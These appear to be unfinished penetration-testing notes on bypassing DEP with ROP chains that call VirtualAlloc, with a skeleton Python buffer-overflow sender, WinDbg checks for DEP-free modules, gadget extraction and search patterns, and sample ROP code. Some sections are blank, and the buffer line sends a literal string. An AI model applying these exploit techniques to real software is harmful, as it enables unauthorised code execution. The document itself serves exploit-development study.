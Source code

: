 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX, EDI, or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
      - Gadget memory addresses cannot contain bad characters  
      - Remember top of the stack contains the function return address.    
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     * Sample searches
       ```
       push esp.* ; .* pop.* ; ret
       mov .*, esp
       xchg .*, esp
       xor .*, .* ; add .*, esp
       lea .*, esp
       sub .*, .*, adc .*, esi
       mov\s+(edx|ecx|eax|ebx|edi),\s*esp\s*(?:.*?\n)*?mov\s+(edi|edx|ecx|eax|ebx),\
       mov\s+\[.*?\],\s*esp\s*(?:.*?\n)*?mov\s+(edx|ecx|eax|ebx|edi),\s*\[.*?\]

       
       ```
       
     ```
     ...
     # Gadgets
     # 0x5052838d: push esp ; push eax ; ret 
     # 0x5053d7e4: pop edi ; pop esi ; ret  ;

     # rop chains
     eip = pack("<L",(0x5052838d)) # push esp ; push eax ; ret | Move esp to stack
     rop = pack("<L", (0x5053d7e4)) # pop edi ; pop esi ; ret  ; | pop esp into esi

     ...
     buf = offset + cb + eip + rop 
     ```

### 7. Obtaining VirtualAlloc Address

### 8. 

